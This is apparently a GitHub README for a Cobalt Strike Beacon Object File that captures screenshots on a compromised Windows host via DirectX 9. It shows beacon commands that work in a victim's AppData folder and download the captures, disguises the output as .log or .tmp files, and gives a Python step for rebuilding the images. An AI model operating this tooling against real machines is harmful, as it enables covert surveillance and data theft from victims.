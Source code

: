 # DirectX9-Screenshot-BOF
![memez](/img/8gku6o.jpg)
## Overview

Capture Screenshots with DirectX 9   
TBH I haven't tested this too much just seemed like a cool idea

## Notes

- Export screenshots to the **current working directory** as `.log` files
- Output format: `<width>oo<height>.log`
- Reconstruct `.log` files into PNG format locally
- Libraries Used - MSVCRT, OLE32, D3D9

- Just swap the output file to .tmp and recompile if preferred 

### BOF Execution

Ensure you are in the directory you would like the screenshot exported as. 
```
beacon> cd C:\Users\Victim\AppData\
beacon> screenshot-dx
beacon> download <filename>
```

### Example

![Cobalt Strike Example](/img/cobalt-test.png)

![AutoDownload Example](/img/auto-download.png)
## Image Reconstruction

To reconstruct the image with this script, follow these steps:

1. Install the required packages:
    ```bash
    pip3 install Pillow
    ```

2. Run the script with the desired log file path and output file path:
    ```bash
    python3 assemble.py <logfile> output.png
    ```

### Contributers
Big thanks to ma boy Kyle started this
@kyle41111
